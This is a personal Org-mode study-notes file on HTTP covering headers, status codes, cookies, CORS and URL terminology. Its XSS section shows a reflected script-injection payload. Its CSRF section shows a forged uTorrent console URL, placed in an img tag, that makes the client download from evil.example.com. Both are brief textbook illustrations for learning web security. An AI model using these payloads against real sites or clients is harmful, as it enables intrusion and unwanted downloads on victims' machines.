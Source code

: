 #+TITLE: HTTP

* Table of Contents :TOC_2_gh:
- [[#headers][Headers]]
  - [[#http-referer][HTTP referer]]
- [[#response-status-codes][Response status codes]]
  - [[#204-no-content][204 No Content]]
  - [[#401-unauthorized][401 Unauthorized]]
  - [[#403-forbidden][403 Forbidden]]
  - [[#409-conflict][409 Conflict]]
- [[#topics][Topics]]
  - [[#cache-control][Cache Control]]
  - [[#cookies][Cookies]]
  - [[#accept-vs-content-type][Accept vs. Content-Type]]
  - [[#when-is-the-authorization-header-automatically-sent-by-the-browser][When is the Authorization header automatically sent by the browser?]]
  - [[#basic-access-authentication][Basic access authentication]]
  - [[#web-storage-vs-cookies][Web Storage vs. Cookies]]
  - [[#cors-cross-origin-resource-sharing][CORS (Cross Origin Resource Sharing)]]
  - [[#xss-cross-site-scripting][XSS (Cross-site scripting)]]
  - [[#csrf-cross-site-request-forgery][CSRF (Cross-site request forgery)]]
  - [[#url-vs-uri-vs-urn][URL vs URI vs URN]]
  - [[#valid-url-characters][Valid URL characters]]
  - [[#endpoint][Endpoint]]

* Headers
** HTTP referer
- Misspelling of *referrer*
- There are some tricky parts when requesting between HTTPS and HTTP ([[https://isc.sans.edu/forums/diary/When+does+your+browser+send+a+Referer+header+or+not/16433/][detail]])

#+BEGIN_EXAMPLE
  Referer: https://developer.mozilla.org/en-US/docs/Web/JavaScript
#+END_EXAMPLE

#+BEGIN_QUOTE
when a user clicks a hyperlink in a web browser, the browser sends a request to the server holding the destination webpage.
The request includes the referer field, which indicates the last page the user was on (the one where they clicked the link).
#+END_QUOTE

:REFERENCES:

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer
- https://en.wikipedia.org/wiki/HTTP_referer
- https://isc.sans.edu/forums/diary/When+does+your+browser+send+a+Referer+header+or+not/16433/
:END:

* Response status codes
** 204 No Content
- Designates that the client *doesn't need to go away from its current page.*

:REFERENCES:

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/204
:END:

** 401 Unauthorized
#+BEGIN_QUOTE
“you aren’t authenticated–either not authenticated at all or authenticated incorrectly–but please reauthenticate and try again.”
#+END_QUOTE

:REFERENCES:

- https://stackoverflow.com/questions/3297048/403-forbidden-vs-401-unauthorized-http-responses
:END:

** 403 Forbidden
#+BEGIN_QUOTE
“I’m sorry. I know who you are–I believe who you say you are–but you just don’t have permission to access this resource. Maybe if you ask the system administrator nicely, you’ll get permission. But please don’t bother me again until your predicament changes.”
#+END_QUOTE

:REFERENCES:

- https://stackoverflow.com/questions/3297048/403-forbidden-vs-401-unauthorized-http-responses
:END:

** 409 Conflict
- When ~PUT~ request cannot be completed because of a conflict with the current state of the resource.
- It can be okay as a response of ~POST~, but not common because ~POST~ request as a creation would generally cause no conflicts.

:REFERENCES:

- https://stackoverflow.com/questions/3825990/http-response-code-for-post-when-resource-already-exists
:END:

* Topics
** Cache Control
:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control
:END:

*** Request
#+BEGIN_EXAMPLE
  Cache-Control: max-age=<seconds>
  Cache-Control: max-stale[=<seconds>]
  Cache-Control: min-fresh=<seconds>
  Cache-Control: no-cache 
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: only-if-cached
#+END_EXAMPLE

*** response
#+BEGIN_EXAMPLE
  Cache-Control: must-revalidate
  Cache-Control: no-cache
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: public
  Cache-Control: private
  Cache-Control: proxy-revalidate
  Cache-Control: max-age=<seconds>
  Cache-Control: s-maxage=<seconds>
#+END_EXAMPLE

** Cookies
#+BEGIN_QUOTE
Yes, as long as the URL requested is within the same domain and path defined in the cookie
(and all of the other restrictions -- secure, httponly, not expired, etc) hold,
then the cookie will be sent for every request.
#+END_QUOTE

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- https://stackoverflow.com/questions/1336126/does-every-web-request-send-the-browser-cookies
:END:

*** Set-Cookie
#+BEGIN_EXAMPLE
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+END_EXAMPLE

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies
- Secure   :: The cookies that are set can only be sent over HTTPS
- HttpOnly :: The cookies that are set cannot be retrieved with JS. Only be sent to the designated server.

** Accept vs. Content-Type
#+BEGIN_QUOTE
~Accept~ header is used by HTTP clients to tell the server what content types they'll accept.
The server will then send back a response, which will include a ~Content-Type~ header
telling the client what the content type of the returned content actually is.
#+END_QUOTE

The ~Content-Type~ header on HTTP Request is for the payload of ~POST~ or ~PUT~, which tells the server how the payload is formed.

:REFERENCES:
- https://webmasters.stackexchange.com/questions/31212/difference-between-the-accept-and-content-type-http-headers
:END:

** When is the Authorization header automatically sent by the browser?
Only types like ~Basic~, ~NTLM~ of ~Authorization~ header is sent automatically by browser in following cases:
#+BEGIN_QUOTE
The ~Authorization~ header field allows a user agent to authenticate itself with an origin server --
 usually, but not necessarily, after receiving a 401 (Unauthorized) response.
#+END_QUOTE

On the other hand, other types must explicitly be added by JS.
#+BEGIN_QUOTE
A ~Bearer~ token in the ~Authorization~ header necessarily requires being added by JavaScript
because *the browser will never include it*
#+END_QUOTE

:REFERENCES:
- https://stackoverflow.com/questions/15427650/when-is-the-authorization-header-automatically-sent-by-the-browser
- https://security.stackexchange.com/questions/172637/will-authorization-bearer-in-request-header-fix-csrf-attacks
:END:

** Basic access authentication
#+BEGIN_QUOTE
Because the BA field(~Authorization: Basic~) has to be sent in the header of *each HTTP request*,
the web browser needs to cache credentials for a reasonable period of time to avoid constantly prompting the user for their username and password.
Caching policy differs between browsers.
Microsoft Internet Explorer by default caches them for 15 minutes.[1]
#+END_QUOTE

:REFERENCES:
- https://en.wikipedia.org/wiki/Basic_access_authentication
:END:

** Web Storage vs. Cookies
Does your authn token protect anything to do with money?
- You'll probably want the cookie httpOnly secure option.

Is the level of effort required to implement CSRF protection not worth the assets it's protecting?
- Then the Web Storage might be the right place.

:REFERENCES:
- https://auth0.com/docs/security/store-tokens
- https://stackoverflow.com/questions/35291573/csrf-protection-with-json-web-tokens
:END:

*** Web Storage
There are two types of Web Storage:
- localStorage   :: data persists until explicitly deleted.
- sessionStorage :: Once the window is closed, the storage is deleted.

Web Storage is safe from CSRF attacks, since it doesn't automatically send its contents.

However, there are some disadvantages compared to Cookies:
- sandboxed to a specific domain
- accessible through JS, which means that it's vulnerable to XSS attacks

*** Cookies
Disadvantages compared to Web Storages:
- 4KB of max size (it counts all elements like name, value, expiry date)
- vulnerable to CSRF attacks

** CORS (Cross Origin Resource Sharing)
CORS is for invocations of the [[https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest][XMLHttpRequest]] or [[https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API][Fetch API]], and other resources like images and fonts.

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
:END:

*** Simple Requests
With some limited conditions, CORS works as normal requests by just adding some headers 
like ~Origin~ on requests and ~Access-Control-Allow-Origin~ on responses.
This type of requests is usually a kind of read access, like ~GET~, ~HEAD~, ~POST~

*** Preflighted Requests
If some requests is unable to comply the simple requests conditions, it should go with Preflighted Requests.
With this process, the client sends an ~OPTION~ request first, and make the actual request using the ~OPTION~ response.
This type of requests is usually a kind of write access, like ~PUT~, ~DELETE~

When you send an ~OPTION~ request, you should include some headers like ~Access-Control-Request-Method~, ~Access-Control-Request-Headers~
Here is an example respond of the ~OPTION~ request.
#+BEGIN_EXAMPLE
  Access-Control-Allow-Origin: http://foo.example
  Access-Control-Allow-Methods: POST, GET, OPTIONS
  Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
  Access-Control-Max-Age: 86400
#+END_EXAMPLE

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS
:END:

*** XMLHttpRequest.withCredentials and Access-Control-Allow-Credentials
If ~withCredentials~ is set to ~true~ on the request, the CORS request will send cookies, ~Authorization~ header, etc.

~Access-Control-Allow-Credentials~: When used as part of a response to a preflight request,
this indicates whether or not the actual request can be made using credentials.
If this response doesn't contain ~Access-Control-Allow-Credentials: true~,
it won't provide the actual response.

The cookie created through this process will be treated as the third party cookie.

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Credentials
:END:

*** Same-origin policy
#+BEGIN_QUOTE
The same-origin policy is a key mechanism implemented within browsers
that is designed to keep content that came from different origins
from interfering with each other.
#+END_QUOTE

Without Same-origin policy, any JS code would access other domains resources. 

[[file:_img/screenshot_2018-03-19_01-16-27.png]]

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://security.stackexchange.com/questions/8264/why-is-the-same-origin-policy-so-important
- https://en.wikipedia.org/wiki/Same-origin_policy
:END:

*** JSONP
:REFERENCES:
- https://en.wikipedia.org/wiki/JSONP
:END:
JSON with Padding. A way to circumvent Same-origin policy before the adoption of ~CORS~.

#+BEGIN_SRC html
  <script type="application/javascript"
          src="http://server.example.com/Users/1234?callback=parseResponse">
  </script>
#+END_SRC

#+BEGIN_SRC js
  parseResponse({"Name": "Foo", "Id": 1234, "Rank": 7});
#+END_SRC

** XSS (Cross-site scripting)
An attacker observes that target website contains a reflected XSS vulnerability:
1. Search feature: If no results were found, the page will display the url with the query term, like http://bobssite.org?q=term.
2. Submit a search query with a term like ~<script type='text/javascript'>alert('xss');</script>~
3. An alert box appears (that says ~xss~).
4. The url is ~http://bobssite.org?q=<script%20type='text/javascript'>alert('xss');</script>~
5. The attacker sends an e-mail which contains a link to the forged url.
6. The victim gets the link and executes the attackers script.

:REFERENCES:
- https://en.wikipedia.org/wiki/Cross-site_scripting
:END:

** CSRF (Cross-site request forgery)
Force a ~.torrent~ file download:
1. uTorrent's web console is accessible at ~localhost:8080~
2. Forge a url make uTorrent download ~backdoor.torrent~ automatically
   - ~http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent~
3. Inject the forged url as ~<img>~ tag like: ~<img src="<url>">~
4. The victim opens the page containg the tag and download ~backdoor.torrent~ inadvertently.

:REFERENCES:
- https://en.wikipedia.org/wiki/Cross-site_request_forgery
:END:

** URL vs URI vs URN
| Name (Uniform Resource -) | Example                                 | Note                                                                                                         |
|---------------------------+-----------------------------------------+--------------------------------------------------------------------------------------------------------------|
| ~URI~ (Identifier)        | ~https://www.google.co.kr/search?q=uri~ |                                                                                                              |
| ~URL~ (Locator)           | ~https://www.google.co.kr/search~       | Subset of ~URI~, contains only about location                                                                |
| ~URN~ (Name)              | ~urn:google:search:uri~                 | Subset of ~URI~, doesn't necessarily tell you how to locate it on the internet. Usually Prefixed with ~urn:~ |

[[file:_img/screenshot_2017-06-03_15-46-11.png]]

:REFERENCES:
- https://stackoverflow.com/questions/176264/what-is-the-difference-between-a-uri-a-url-and-a-urn
:END:

** Valid URL characters
[[file:_img/screenshot_2018-05-11_12-49-59.png]]

:REFERENCES:

- https://stackoverflow.com/questions/7109143/what-characters-are-valid-in-a-url
:END:

** Endpoint
- A web ~endpoint~ is ~URL~ that another program would use to communicate with your program.

:REFERENCES:
- https://stackoverflow.com/questions/9807382/what-is-a-web-service-endpoint
:END:
